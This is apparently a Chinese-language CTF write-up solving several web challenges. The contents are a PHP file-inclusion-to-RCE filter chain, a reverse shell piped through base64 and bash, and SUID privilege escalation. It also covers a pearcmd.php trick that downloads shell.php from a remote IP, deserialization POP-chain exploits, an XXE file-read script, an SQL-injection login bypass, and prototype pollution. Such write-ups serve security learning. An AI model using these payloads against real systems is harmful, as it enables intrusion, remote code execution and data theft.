

##  web1--rce_me

###  解法1

就是利用`陆队`的文件包含来搞

```php
<?php
(empty($_GET["file"])) ? highlight_file(__FILE__) : $file=$_GET["file"];
function fliter($var): bool{
    $blacklist = ["<","?","$","[","]",";","eval",">","@","_","create","install","pear"];
    foreach($blacklist as $blackword){
        if(stristr($var, $blackword)) return False;
    }
    return True;
}
if(fliter($_SERVER["QUERY_STRING"]))
{
    include $file;
}
else
{
    die("Noooo0");
}

```

这个题就是文件包含题目

`php://filter`协议能读，也能进行目录穿越读，直接读`/flag`是不行的

尝试了其他的日志文件包含，但是`apache`的日志目录中`_`字符过滤了，临时文件包含的话，因为拿不到`/tmp`下的文件名，需要爆破和条件竞争之类的，大概率也不行了。

session文件包含，不知道phpinfo中的session路径之类

nginx缓存过大生成临时文件进行条件竞争，可惜是`apache`

最后就只剩下陆队写的[`利用php://filter中base64的宽松特性进行绕过`](https://blog.zeddyu.info/2022/01/08/2022-01-08-TheEndOfLFI/)

```php
php://filter/convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC%5fP271.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L3.T.61|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.851.UTF8|convert.iconv.L7.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.851.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=/etc/passwd&0=id
```

利用`/etc/passwd`的字符来构造一个webshell

https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d

直接拿过来用生成payload打

读`/flag`没有权限，先反弹shell

```
echo "xxxx" |base64 -d|bash
```

进去suid提权

```
install -m =xs `which date` /tmp
date -f /flag
```

###  解法2

没想到可以利用pearcmd.php来进行php裸文件包含,其实看到`pear`就应该反应过来

[看这个](https://blog.csdn.net/rfrder/article/details/121042290?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522166252175016782412565874%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&request_id=166252175016782412565874&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-7-121042290-null-null.nonecase&utm_term=php%E8%A3%B8%E6%96%87%E4%BB%B6&spm=1018.2226.3001.4450)

直接上payload

`pear`直接利用`URLencode`绕过，`install`换成`download`

```
?file=/usr/local/lib/php/%70%65arcmd.php&+download+
http://101.32.213.202:7777/shell.php 
```

远程服务器下载到当前⽬录 连接后suid提权\

本地写马因为过滤就不行了。

## web2--step_by_step-v3

这个题应该都是非预期打出来的

### 非预期

```php
<?php
error_reporting(0);
class yang
{
    public $y1;

    public function __construct()
    {
        $this->y1->magic();
    }

    public function __tostring()
    {
        ($this->y1)();
    }

    public function hint()
    {
        include_once('hint.php');
        if(isset($_GET['file']))
        {
            $file = $_GET['file'];
            if(preg_match("/$hey_mean_then/is", $file))
            {
                die("nonono");
            }
            include_once($file);
        }
    }
}

class cheng
{
    public $c1;

    public function __wakeup()//当unserialize时触发
    {
        $this->c1->flag = 'flag';
    }

    public function __invoke()
    {
        $this->c1->hint();
    }
}

class bei
{
    public $b1;
    public $b2;

    public function __set($k1,$k2)//
    {
        print $this->b1;
    }

    public function __call($n1,$n2)
    {
        echo $this->b1;
    }
}

if (isset($_POST['ans'])) {
    unserialize($_POST['ans']);
} else {
    highlight_file(__FILE__);
}
?>
```

链子：入口`cheng的wakeup`->`bei的set`->`yang的toString`

```php
<?php
class yang{
    public $y1;
}
class cheng{
    public $c1;
}
class bei{
    public $b1;
    public $b2;
}
$a=new cheng();
$a->c1=new bei();
$a->c1->b1=new yang();
$a->c1->b1->y1="phpinfo";
echo urlencode(serialize($a));
```

打出`phpinfo`，结果flag在`phpinfo`里面

###  预期解

```php
<?php
class yang{
    public $y1;
}
class cheng{
    public $c1;
}
class bei{
    public $b1;
    public $b2;
}
$a=new cheng();
$a->c1=new bei();
$a->c1->b1=new yang();
$a->c1->b1->y1=new cheng();
$a->c1->b1->y1->c1=new yang();
echo urlencode(serialize($a));
```

这个是反序列化链子

但是需要绕过`waf`，我们需要读取到hint.php

```php
public function hint()
    {
        include_once('hint.php');
        if(isset($_GET['file']))
        {
            $file = $_GET['file'];
            if(preg_match("/$hey_mean_then/is", $file))
            {
                die("nonono");
            }
            include_once($file);
        }
    }
```

因为`include_once`,所以直接读取`php://filter/read=convert.base64-encode/resource=hint.php`是读取不到的

我们可以利用`20年WMCTF中的一个题`

```
https://www.anquanke.com/post/id/213235
```

直接利用payload绕过：

但是又出现了一个问题，就是`var,www,html`被过滤了，我们这个位置利用`/proc/self/cwd`,可以获取当前运行的目录

```
php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/cwd/hint.php
```

得到hint.php

```php
<?php
$hey_mean_then = "\.\.\/|var|www|html|conf|lmx|decode|expect|http|https|data|glob|phar|host|g$|[0-3]|[7-9]|~|\*|\?| |\_|%|\^|\"|\'|\||\`|{|}|<|>|;|\(|\)";
//dHJ5IC8xOTE5ODEwNDE1NDEx
//try /1919810415411
?>
```

之前预期解就做到这一步了，环境也没了，最后看wp真是个套娃题

忘记读`/etc/passwd`了

发现flag的位置

```
fl44449g:x:1000:1000::/home/fl44449g:/bin/bash
```

hint.php中的`/1919810415411`,我们访问一下



看到`js`的文件

```js
var usr = document.getElementById("usr").value;//重点
var pwd = document.getElementById("pwd").value;
if(usr=="admin" && pwd=="123456")
{
	window.location.href="./lmx.php";
}
```

继续访问`lxm.php`文件


这套娃题，真的。。。。

`loadXML()`可以加载xml文件

我们构造恶意的xml文件

这是XXE漏洞的利用，发现有过滤，用`UTF-16`编码去绕：

```python
import requests
url = "<http://80.endpoint-ad37f36587884dd8b98756b4f486f8a5.dasc.buuoj.cn:81/1919810415411/lmx.php>"

payload = """<!DOCTYPE xxe[
<!ELEMENT test ANY >
<!ENTITY xxe SYSTEM "file:///fl44449g" >]>
<test>
<name>&xxe;</name>
</test>
"""

payload = payload.encode('utf-16')
r = requests.post(url ,data=payload)
print(r.text)
```

然后base64读flag即可。

##  web3--Safepop

```php
<?php
error_reporting(E_ALL);
ini_set('display_errors', true);
highlight_file(__FILE__);
class Fun{
    private $func = 'call_user_func_array';
    public function __call($f,$p){//当调用不可访问的方法⑩
        call_user_func($this->func,$f,$p);
    }
    public function __wakeup(){//反序列化时
        $this->func = '';
        die("Don't serialize me");
    }
}

class Test{
    public function getFlag(){
        system("cat /flag?");
    }
    public function __call($f,$p){
        phpinfo();
    }
    public function __wakeup(){
        echo "serialize me?";
    }
}

class A{
    public $a;
    public function __get($p){
        if(preg_match("/Test/",get_class($this->a))){
            return "No test in Prod\n";
        }
        return $this->a->$p();
    }
}

class B{
    public $p;
    public function __destruct(){
        $p = $this->p;
        echo $this->a->$p;
    }
}
if(isset($_GET['pop'])){
    $pop = $_GET['pop'];
    $o = unserialize($pop);
    throw new Exception("no pop");
}
```

这个题也挺离谱，写的是困难难度，结果一下子就打通了

```php
<?php
class Fun{
    private $func = 'system';
    public function __call($f,$p){
        call_user_func($this->func,$f,$p);
    }
    public function __wakeup(){
        $this->func = '';
        die("Don't serialize me");
    }
}

class Test{
    public function getFlag(){
        system("cat /flag?");
    }
    public function __call($f,$p){
        phpinfo();
    }
    public function __wakeup(){
        echo "serialize me?";
    }
}

class A{
    public $a;
    public function __get($p){
        if(preg_match("/Test/",get_class($this->a))){
            return "No test in Prod\n";
        }
        return $this->a->$p();
    }
}

class B{
    public $p;
    public function __destruct(){
        $p = $this->p;
        echo $this->a->$p;
    }
}

$a = new B();
$a->a = new A();
$a->p = "cat /flag?";
$a->a->a = new Fun();

$pop2 = serialize($a);
echo $pop2.PHP_EOL;
$pop2[8] = '3';
echo $pop2.PHP_EOL;
echo urlencode($pop2);
```

开始想有个`throw new Exception("no pop")`，我以为需要利用`gc回收机制`，提前进入`destruct`,都准备用数组改参数绕过。

然后就是

```php
if(preg_match("/Test/",get_class($this->a))){
            return "No test in Prod\n";
        }
```

想到了国赛初赛的那个绕过，需要用原生类或者其他内置类，结果也不用

```php
$b = $this->b;
        $checker = new ReflectionClass(get_class($b));
        if(basename($checker->getFileName()) != 'SomeClass.php'){
            if(isset($b->a)&&isset($b->b)){
                ($b->a)($b->b."");
            }
        }
```

这个位置就是利用手段了

```php
 public function __call($f,$p){//当调用不可访问的方法⑩
        call_user_func($this->func,$f,$p);
    }
```

因为要调用`Test`的`getFlag`，但是这个是个无参的函数，我们`call_user_func`传了两个参数进去

所以我们自己构造`this->func='system'`,然后传入`cat flag?`进去，就直接获取flag了。


其他的payload：就是利用`gc回收机制提前进入destruct`，从而绕过``throw new Exception`,也要该属性的个数绕过wakeup

```php
<?php
error_reporting(E_ALL);
ini_set('display_errors', true);
highlight_file(__FILE__);
class Fun{
    private $func = 'system';
    public function __call($f,$p){
        call_user_func($this->func,$f,$p);
    }
    public function __wakeup(){
        $this->func = '';
        die("Don't serialize me");
    }
}

class Test{
    public function getFlag(){
        system("cat /flag?");
    }
    public function __call($f,$p){
        phpinfo();
    }
    public function __wakeup(){
        echo "serialize me?";
    }
}

class A{
    public $a;
    public function __get($p){
        if(preg_match("/Test/",get_class($this->a))){
            return "No test in Prod\\n";
        }
        return $this->a->$p();
    }
}

class B{
    public $p;
    public function __destruct(){
        $p = $this->p;
        echo $this->a->$p;
    }
}

$k1 = new B();
$k2 = new A();
$k1->a = $k2;
$k1->p = "cat /flag?";
$k2->a = new Fun();

//数组利用gc回收机制
echo urlencode(serialize(array($k1,1)));
```

还有个是直接进入`getFlag`的函数里

这个位置是在`call_user_func`调用方法时，是通过`$this->func = [new Test,'getFlag']`这种形式来直接引用类中的方法

```php
<?php
class Fun{
 private $func;
 public function __construct(){
 $this->func = [new Test,'getFlag'];//也可以写为$this->func = "Test::getFlag";这样由于没
有实例化Test类，还不会触发Test⾥的__wakeup()
 }
}
class Test{
 public function getFlag(){
 }
}
class A{
 public $a;
}
class B{
 public $p;
}
$Test = new Test;
$Fun = new Fun;
$a = new A;
$b = new B;
$a->a = $Fun;
$b->a = $a;
$r = serialize($b);
//绕过wakeup
$r1 = str_replace('"Fun":1:','"Fun":2:',$r);
echo urlencode($r1);

```

##  web4--ComeAndLogin

这个题，也是离谱，我还以为是SQL注入，需要爆密码啥的，结果一个万能密码，哎，继续加油吧


过滤了`单引号`，没法闭合，我们利用转义字符`\`，来转义

```
username=username\&password=or/**/1#
```

借用EDI安全的图


因为需要3个以上的斜杠,而且不能有`.`，和`//`出现

我们直接通过`/proc/self/`来读

`/proc/self/root/flag`

##  web5,6--little_db和simple_json

后面学了一定复现

https://blog.csdn.net/qq_45603443/article/details/126698982?spm=1001.2014.3001.5502

##  web7

是一道mongo注入，拿到`session`,然后用`lodash.merge`进行原型链污染打`RCE`

```js
var express = require('express');
var mongoose = require('mongoose');
var bodyParser = require('body-parser');
var fs = require('fs');
var lodash = require('lodash');
var session = require('express-session');
var randomize = require('randomatic');

mongoose.connect('mongodb://localhost/ctf', { useNewUrlParser: true });

......


app.set('views', './views');
app.set('view engine', 'ejs');
app.use('/static', express.static('static'));

......


app.get('/', (req, res, next) => {

    if(req.session.admin === undefined || req.session.admin === null) {
        res.redirect('/login');
    } else {
        res.redirect('/home');
    }
})

// login
app.all('/login', function(req, res) {

......

});


app.all('/home', function(req, res) {

    if(!req.session.admin) {
        return res.redirect('/');
    }

    if(req.session.data !== undefined && req.session.data !== null) {
        res.render('home.ejs', {
            real_name: req.session.data.realname,
            age: req.session.data.age
        });
    }
    else {
        res.render('home.ejs', {
            real_name: 'Undefined',
            age: 'Undefined'
        });
    }

});


// update your info
app.all('/update', (req, res) => {

    if(!req.session.admin) {
        return res.redirect('/');
    }

    if (req.method == 'GET') {
        res.render('update.ejs');
    }

    let data = req.session.data || {realname: '', age: ''}
    if (req.method == 'POST') {
        data = lodash.merge(data, req.body);
        req.session.data = data;
        if(req.session.data.realname) {
            res.redirect('/home');
        }
    }
})


var server = app.listen(3000, '0.0.0.0', function () {

    var host = server.address().address;
    var port = server.address().port;

    console.log("listening on http://%s:%s", host, port);
});
```

